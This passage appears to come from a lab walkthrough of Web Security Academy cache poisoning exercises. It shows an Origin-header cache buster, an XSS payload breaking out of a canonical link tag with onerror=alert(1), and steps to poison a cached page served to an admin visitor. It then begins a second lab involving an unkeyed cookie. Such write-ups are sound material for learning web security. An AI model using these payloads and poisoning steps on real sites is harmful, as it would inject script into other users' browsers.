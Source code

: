 First one will cache the other as well.

> [!NOTE] 
> Since admin is also visiting Home page, if you get randomly cached response, it's most likely that.

**CB**: 
- If we add `Origin: cb.net` to the second Request we now get `X-Cache: miss` meaning we can use `Origin` as cache buster.
- We will continue testing with this CB.

##### XSS

Investigate Response for Home page:

```html
<link rel="canonical" href='//my.web-security-academy.net/?test=123'/>
```

Make a payload
```html
?test=123'/><link rel=stylesheet href=1 onerror=alert(1)>
```

Don't forget to URL encode before sending. We got XSS.

##### Combine the two

Remove the `Origin` header (CB) and set path to:
```html
/?test=123'/><link rel=stylesheet href=1 onerror=alert(1)>
```

Send the Request. This solves the lab.

Keep in mind admin visits once per minute and cache expires every 35 sec, so you may need to re-poison.

### Automation

While the WBVC will detect cache poisoning here, we need to manually add the Origin header as CB.

## Web cache poisoning with an unkeyed cookie
![Awesome Badges](https://img.shields.io/badge/level-practitioner-blue)

This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. 

An unsuspecting user regularly visits the site's home page. 

To solve this lab, poison the cache with a response that executes `alert(1)` in the visitor's browser.

#### Solution

Navigate to Login Page and inspect the Request.

Notice the Cookie
```
Cookie: session=wsC9Fdm8oU5G8YKr8KxmKPH3BOLUQaYU; fehost=prod-cache-01
```
